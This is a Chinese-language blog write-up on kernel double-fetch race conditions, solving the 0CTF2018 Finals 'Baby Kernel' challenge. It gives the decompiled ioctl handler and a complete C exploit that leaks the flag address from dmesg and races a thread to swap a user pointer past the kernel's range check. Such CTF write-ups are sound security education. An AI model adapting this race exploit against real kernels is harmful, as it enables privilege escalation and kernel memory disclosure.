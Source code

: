 ```yaml
---
layout: post
title:  "Kernel double fetch"
date:   2020-3-19
desc: ""
keywords: ""
categories: [Binary]
tags: []
icon: icon-html
---
```


# Kernel double fetch

## 条件竞争

👴学数电的时候学过竞争-冒险现象，组合逻辑电路中，同一信号经不同的路径传输后，到达电路中某一会合点的时间有先有后，这种现象称为逻辑竞争，而因此产生输出干扰脉冲的现象称为冒险。

👴不确定这是不是条件竞争祖宗，这⑧重要

当一个软件的运行结果依赖于进程或者线程的顺序时，就可能会出现条件竞争

条件

1. 至少存在两个并发执行流
2. 多个并发流会访问同一对象
3. 至少有一个控制流会改变竞争对象的状态



## double fetch

double fetch产生于没有安全同步措施的多线程数据访问，是一种内核态与用户态之间的数据访问竞争

用户空间向内核传递数据时，内核通过通过 copy_from_user 等拷贝函数将用户数据拷贝至内核空间，在输入数据较为复杂时，内核可能只引用其指针，而将数据暂时保存在用户空间进行后续处理，此时，该数据存在被其他恶意线程篡改风险

两个用户线程，第一个准备用户数据并调用syscall，向内核传递数据。内核只引用其指针，对数据进行两次读取，第一次验证有效性，第二次真正使用。同时第二个进程利用条件竞争，在两次读取之间篡改用户数据，造成内核验证通过数据与实际使用数据不一致

double fetch引发的常见后果是数组访问越界和缓冲区溢出，从而造成内核崩溃或者提权，此外也可造成内核信息泄露等后果

## 0CTF2018 Finals Baby Kernel

这题要是和高校战役的kernel pwn一样，👴就strings出flag

```bash
strings baby.ko | grep flag
flag{THIS_WILL_BE_YOUR_FLAG_1234}
Your flag is at %px! But I don't think you know it's content
Looks like the flag is not a secret anymore. So here is it %s
flag
```

没给出bzImage，在IDA中可以看到版本4.15.0-22-generic，下载一波

start.sh

```bash
qemu-system-x86_64 \
-m 256M -smp 2,cores=2,threads=1  \
-kernel ./vmlinuz-4.15.0-22-generic \
-initrd  ./core.cpio \
-append "root=/dev/ram rw console=ttyS0 oops=panic panic=1 quiet" \
-cpu qemu64 \
-netdev user,id=t0, -device e1000,netdev=t0,id=nic0 \
-nographic  -enable-kvm  \

```

init

```bash
#!/bin/sh
 
mount -t proc none /proc
mount -t sysfs none /sys
mount -t devtmpfs devtmpfs /dev
echo "flag{this_is_a_sample_flag}" > flag
chown root:root flag
chmod 400 flag
exec 0</dev/console
exec 1>/dev/console
exec 2>/dev/console

insmod baby.ko
chmod 777 /dev/baby
echo -e "\nBoot took $(cut -d' ' -f1 /proc/uptime) seconds\n"
setsid cttyhack setuidgid 1000 sh

umount /proc
umount /sys
poweroff -d 0  -f

```

baby_ioctl

```c
signed __int64 __fastcall baby_ioctl(__int64 a1, attr *a2)
{
  attr *v2; // rdx
  signed __int64 result; // rax
  int i; // [rsp-5Ch] [rbp-5Ch]
  attr *v5; // [rsp-58h] [rbp-58h]

  _fentry__(a1, a2);
  v5 = v2;
  if ( a2 == 0x6666 )
  {
    printk("Your flag is at %px! But I don't think you know it's content\n", flag);
    result = 0LL;
  }
  else if ( a2 == 0x1337
         && !_chk_range_not_ok(v2, 16LL, *(__readgsqword(&current_task) + 4952))
         && !_chk_range_not_ok(v5->flag_str, SLODWORD(v5->flag_len), *(__readgsqword(&current_task) + 4952))
         && LODWORD(v5->flag_len) == strlen(flag) )
  {
    for ( i = 0; i < strlen(flag); ++i )
    {
      if ( *(v5->flag_str + i) != flag[i] )
        return 0x16LL;
    }
    printk("Looks like the flag is not a secret anymore. So here is it %s\n", flag);
    result = 0LL;
  }
  else
  {
    result = 0xELL;
  }
  return result;
}
```

0x6666输出flag地址

flag结构体

```c
00000000 attr            struc ; (sizeof=0x10, mappedto_3)
00000000 flag_str        dq ?
00000008 flag_len        dq ?
00000010 attr            ends
00000010
```

0x1337三次check，数据是用户态数据，flag_str指向用户态数据，len和内核中flag len相等才能过check

过check之后如果flag和内核中的flag相同就会输出flag

利用条件竞争使传入的flag_str指针恰好在过check之后改为内核中的flag地址，就可以输出flag

创建一个进程不断的把flag_str改为内核中的flag地址

```c
#include <string.h>
char *strstr(const char *haystack, const char *needle);
#define _GNU_SOURCE         /* See feature_test_macros(7) */
#include <string.h>
char *strcasestr(const char *haystack, const char *needle);
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
#include <sys/types.h>
#include <sys/stat.h>
#include <sys/ioctl.h>
#include <fcntl.h>
#include <pthread.h>

#define TRYTIME 0x1000
#define LEN 0x1000

struct attr
{
    char *flag;
    size_t len;
};
unsigned long long addr;
int finish =0;
char buf[LEN+1]={0};
void change_attr_value(void *s){
    struct attr * s1 = s; 
    while(finish==0){
    s1->flag = addr;
    }
}

int main(void)
{
 

    int addr_fd;
    char *idx;

    int fd = open("/dev/baby",0);
    int ret = ioctl(fd,0x6666);    
    pthread_t t1;
    struct attr t;

    setvbuf(stdin,0,2,0);
    setvbuf(stdout,0,2,0);
    setvbuf(stderr,0,2,0);   

    system("dmesg > /tmp/record.txt");
    addr_fd = open("/tmp/record.txt",O_RDONLY);
    lseek(addr_fd,-LEN,SEEK_END);
    read(addr_fd,buf,LEN);
    close(addr_fd);
    idx = strstr(buf,"Your flag is at ");
    if (idx == 0){
        printf("[-]Not found addr");
        exit(-1);
    }
    else{
        idx+=16;
        addr = strtoull(idx,idx+16,16);
        printf("[+]flag addr: %p\n",addr);
    }


    t.len = 33;
    t.flag = buf;
    pthread_create(&t1, NULL, change_attr_value,&t);
    for(int i=0;i<TRYTIME;i++){
        ret = ioctl(fd, 0x1337, &t);
        t.flag = buf;
    }
    
    finish = 1;
    pthread_join(t1, NULL);
    close(fd);
    puts("[+]result is :");
    system("dmesg | grep flag");
    return 0;
}

```

